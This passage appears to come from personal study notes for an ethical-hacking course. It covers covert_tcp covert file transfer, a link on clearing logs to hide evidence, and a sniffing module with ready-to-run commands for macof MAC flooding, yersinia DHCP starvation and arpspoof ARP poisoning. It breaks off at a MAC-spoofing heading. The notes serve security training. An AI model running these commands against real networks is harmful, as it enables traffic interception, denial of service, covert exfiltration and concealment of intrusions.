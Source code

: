 1. compile the covert_tcp file

`cc -o covert_tcp covert_tcp.c`

2. Receiving Command

`./covert_tcp -source 192.168.1.108 -source_port 8888 -server -file [file_receive.txt]`

3. Send Command
	Make a text file to send
	`./covert_tcp -dest 192.168.1.100 -source 192.168.1.108 -source_port 9999 -dest_port 8888 -file [file_send.txt]`

######  Clear Logs to Hide Evidence
[CLEARING LOGS - Windows](simplenote://note/676ec02f-ed17-4ea0-8c7e-4c58d8b77c86)

---

## Module 08: Sniffing

###### Perform MAC flooding using macof

- `macof -i [interface] -n [no.of packets to be sent]`

- This command will start flooding the CAM table with random mac addresses.

- We can turn on wireshark and watch this random packets being sent from random mac addresses.

###### Perform DHCP Starvation attack using yersinia

- In DHCP starvation attack , an attacker floods the DHCP server by sending a large number of DHCP requests and uses all available 
IP addresses that DHCP server can issue. As a result the DHCP server cannot issue any more IP addresses , leading to a DOS attack.
- Type ``` yersinia -I ``` to start yersinia in interactive mode.
- To remove the notification window press any key
- Press h for help menu and press q to exit help menu.
- Press F2 to select DHCP mode.
- Press x to list available attack options
- select the options you want , (sending discover packets options is most widely used for DHCP starvation)
- Now yersinia will start sending the DHCP packets to all active machines of your LAN network.

###### Perform ARP Poisoning using arpspoof

- An ARP spoofing, also known as ARP poisoning, is a Man in the Middle (MitM) attack that allows attackers to intercept communication 
between network devices.
- We need to run arpspoof 2 times so that we can make the router believe that we are the target IP and in second attempt we make the 
target believe that we are the router IP.
- `arpspoof -i [interface] -t [target IP] [router default gateway IP]`

-  `arpspoof -i [interface] -t [router default gateway IP] [target IP]`

###### Spoof a mac address using mac changer(linux) , TMAC and SMAC(Windows)
